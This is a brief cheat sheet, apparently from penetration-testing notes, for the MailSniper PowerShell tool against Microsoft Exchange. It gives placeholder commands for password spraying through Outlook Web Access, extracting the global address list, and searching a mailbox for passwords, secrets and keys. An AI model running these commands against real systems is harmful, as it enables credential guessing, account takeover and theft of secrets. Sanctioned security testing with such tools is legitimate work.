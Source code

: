 ### Source
https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1  

### Passwordspray
```
Invoke-PasswordSprayOWA -ExchHostname <rhost> -UserList <userFile> -Password <password>
```

### Extract address book
```
Get-GlobalAddressList -ExchHostname <rhost> -UserName <domain>\<user> -Password <password> -OutFile <outFile>
```

### Search for passwords inside last 100 e-mails for the current user session
```
Invoke-SelfSearch -Mailbox <user>@<domain> -Terms "*password*","*secret*","*key*"
```

